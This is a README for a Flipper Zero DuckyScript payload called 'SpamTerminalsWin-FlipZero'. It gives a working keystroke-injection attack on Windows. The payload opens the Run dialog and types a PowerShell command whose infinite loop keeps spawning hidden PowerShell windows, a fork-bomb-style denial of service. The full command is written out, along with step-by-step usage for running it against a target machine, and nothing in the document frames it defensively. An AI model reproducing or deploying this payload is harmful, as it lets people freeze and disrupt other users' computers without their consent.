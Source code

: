 # SpamTerminalsWin-FlipZero by bst04

## Description

This script, created by bst04, is designed to work on Windows devices. It opens an infinite number of hidden PowerShell terminals, effectively spamming the system with terminal instances.

---

## Technical Explanation

1. **Initialization**:
    - `DELAY 1500`: Waits for 1.5 seconds to ensure.
    - `GUI r`: Simulates pressing "Windows" + "R" to open the Run dialog.
    - `DELAY 250`: Waits for 0.25 seconds to ensure the Run dialog is open.

3. **Execute PowerShell Command**:
    - `STRING powershell -WindowStyle Hidden -Command "while ($true) { Start-Process powershell -ArgumentList '-NoExit', '-Command', 'Start-Process powershell -WindowStyle Hidden -ArgumentList \"-NoExit\", \"-Command\", \"Start-Process powershell -WindowStyle Hidden\"' }"`: Types a PowerShell command that runs an infinite loop, continuously opening hidden PowerShell windows.
    - `DELAY 1000`: Waits for 1 second to ensure the command is fully typed.

4. **Start the Command**:
    - `ENTER`: Executes the PowerShell command.

---

## Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a Windows system.
3. Execute the payload to open an infinite number of hidden PowerShell terminals.

---
